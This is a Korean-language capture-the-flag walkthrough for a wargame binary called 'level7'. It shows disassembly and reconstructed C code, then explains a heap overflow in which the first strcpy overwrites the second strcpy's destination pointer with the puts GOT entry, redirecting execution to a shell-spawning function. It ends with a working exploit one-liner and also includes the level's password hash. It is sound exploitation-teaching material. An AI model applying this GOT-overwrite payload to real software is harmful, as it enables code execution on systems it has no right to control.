 > Password: f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d 

프로그램의 어셈블리 코드를 보면 

```
08048521 <main>:
 8048521:	55                   	push   %ebp
 8048522:	89 e5                	mov    %esp,%ebp
 8048524:	83 e4 f0             	and    $0xfffffff0,%esp
 8048527:	83 ec 20             	sub    $0x20,%esp
 804852a:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
 8048531:	e8 ba fe ff ff       	call   80483f0 <malloc@plt>
 8048536:	89 44 24 1c          	mov    %eax,0x1c(%esp)
 804853a:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 804853e:	c7 00 01 00 00 00    	movl   $0x1,(%eax)
 8048544:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
 804854b:	e8 a0 fe ff ff       	call   80483f0 <malloc@plt>
 8048550:	89 c2                	mov    %eax,%edx
 8048552:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 8048556:	89 50 04             	mov    %edx,0x4(%eax)
 8048559:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
 8048560:	e8 8b fe ff ff       	call   80483f0 <malloc@plt>
 8048565:	89 44 24 18          	mov    %eax,0x18(%esp)
 8048569:	8b 44 24 18          	mov    0x18(%esp),%eax
 804856d:	c7 00 02 00 00 00    	movl   $0x2,(%eax)
 8048573:	c7 04 24 08 00 00 00 	movl   $0x8,(%esp)
 804857a:	e8 71 fe ff ff       	call   80483f0 <malloc@plt>
```

시작 부분에서 malloc을 총 4번 실행하는데 c언어로 표현하면 다음과 같다.

```c
struct test {
    int dummy;
    char *p;
}

a = malloc(sizeof(struct test));
b = malloc(STRING_SIZE);
a->p = b;

c = malloc(sizeof(struct test));
d = malloc(STRING_SIZE);
c->p = d;
```


이후 어셈블리 코드를 보면
```
 8048588:	8b 45 0c             	mov    0xc(%ebp),%eax
 804858b:	83 c0 04             	add    $0x4,%eax
 804858e:	8b 00                	mov    (%eax),%eax
 8048590:	89 c2                	mov    %eax,%edx
 8048592:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 8048596:	8b 40 04             	mov    0x4(%eax),%eax
 8048599:	89 54 24 04          	mov    %edx,0x4(%esp)
 804859d:	89 04 24             	mov    %eax,(%esp)
 80485a0:	e8 3b fe ff ff       	call   80483e0 <strcpy@plt>
 80485a5:	8b 45 0c             	mov    0xc(%ebp),%eax
 80485a8:	83 c0 08             	add    $0x8,%eax
 80485ab:	8b 00                	mov    (%eax),%eax
 80485ad:	89 c2                	mov    %eax,%edx
 80485af:	8b 44 24 18          	mov    0x18(%esp),%eax
 80485b3:	8b 40 04             	mov    0x4(%eax),%eax
 80485b6:	89 54 24 04          	mov    %edx,0x4(%esp)
 80485ba:	89 04 24             	mov    %eax,(%esp)
 80485bd:	e8 1e fe ff ff       	call   80483e0 <strcpy@plt>
```

argc[1] / argv[2]를 각각 b, d에 strcpy를 이용하여 값을 쓰는것을 볼 수 있다.

이때 매모리 상에서의 순서가 a -> b -> c -> d가 되므로 첫 번째 strcpy에서 두번째 strcpy의 dst위치를 덮어쓸 수 있다.

따라서 첫 번째 strcpy에서 두번째 strcpy의 dst를 puts의 GOT로 덮어 쓴 다음, 두 번째 strcpy에서 쉘 실행 함수 m의 위치를 복사하면 된다.

```bash
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08",') $(python -c 'print "\xf4\x84\x04\x08",')
```